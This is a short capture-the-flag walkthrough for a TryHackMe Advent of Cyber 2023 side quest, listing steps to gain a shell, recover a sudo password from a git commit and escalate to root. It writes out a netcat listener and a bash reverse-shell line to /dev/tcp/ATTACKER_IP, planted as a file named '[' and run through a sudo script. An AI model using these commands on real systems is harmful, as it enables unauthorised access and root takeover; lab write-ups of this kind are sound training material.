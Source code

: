 # AoC23 Sidequest 4: The Bandit Surfer
You can find the challenge here: <https://tryhackme.com/room/surfingyetiiscomingtotown>. You could find a QR code to this challenge on [AoC23](https://tryhackme.com/room/adventofcyber2023) day 20.

**WARNING**: this writeup only tells you the solution without explaining it. Only use it if you understand everything without further explanation. 


1. run `python exploit.py MACHINE_IP ATTACKER_IP` to get a shell as mcskidy
2. in a second terminal window, run `nc -lnvp 4455`
3. in the mcskidy shell, type `cd app` then `git show c1a0b22905cc0da0b5ad88c124125efa626013af` to find mcskidys sudo password
4. run `cd ..`
5. run `echo 'bash -i >& /dev/tcp/ATTACKER_IP/4455 0>&1'>[` and `chmod +x [`
6. run `sudo /usr/bin/bash /opt/check.sh` using mcskidys sudo password
7. in your second terminal a root shell should have opened. enjoy!
